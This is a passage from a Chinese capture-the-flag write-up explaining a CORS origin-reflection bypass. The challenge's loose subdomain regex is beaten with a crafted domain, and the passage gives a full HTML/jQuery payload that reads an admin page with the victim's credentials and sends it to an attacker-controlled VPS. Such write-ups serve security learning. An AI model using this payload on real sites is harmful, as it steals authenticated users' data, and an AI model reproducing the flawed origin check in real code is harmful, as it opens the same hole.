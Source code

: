 接着就是描述提到的**多个**子域名`*.iv4n.xyz`

CORS头配置只允许单个域名或`*`通配，不允许`*.iv4n.com`的写法

```
Access-Control-Allow-Origin: http://iv4n.xyz
Access-Control-Allow-Origin: *
```

所以实际开发中都是动态反射来设置CORS头，这里我后台正则写的是

```python
domain_url = re.compile(r'^https?:\/\/(.*\.)?iv4n.xyz([^\.\-a-zA-Z0-9]+.*)?')
```

匹配上了即为我的子域名（不同协议、不同子域名、不同端口、不同路径），便将CORS设置为Origin的值支持跨域，匹配失败即返回`http://iv4n.xyz`阻止跨域

我的本意是需要用`http://iv4n.xyz_.example.com`进行绕过，但很不巧某些系统不支持特殊字符的域名，所以最后改写了后续判断

传入`http://iv4n.xyz.example.com`会匹配到`[('', '')]`，直接丢到if里会当做True，即可实现绕过。（按本意会匹配到`[('', '_.example.com')]`）

故最终的解题思路：

1. 设置域名解析`iv4n.xyz.example.com => YOUR_VPS_IP`

2. 服务器上放置payload

   ```js
   <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
   "http://www.w3.org/TR/html4/loose.dtd">
   <html>
   <head>
       <meta http-equiv="content-type" content="text/html; charset=utf-8" />
       <title>VEIL</title>
       <script src="http://libs.baidu.com/jquery/1.7.2/jquery.min.js"></script>
   </head>
   <body>
       <script charset="utf-8">
            htmlobj = $.ajax({
                           url: "http://202.119.201.199:40107/admin", 
                           async: false,
                           xhrFields: {
                               withCredentials: true
                           }});
            $.ajax({url: "http://YOUR_VPS_IP:9000/"+htmlobj.responseText, async: false});
       </script>
   </body>
   </html>
   
   ```

3. 提交给管理员

4. 接收到`/admin`页面的flag

***

#### Misc
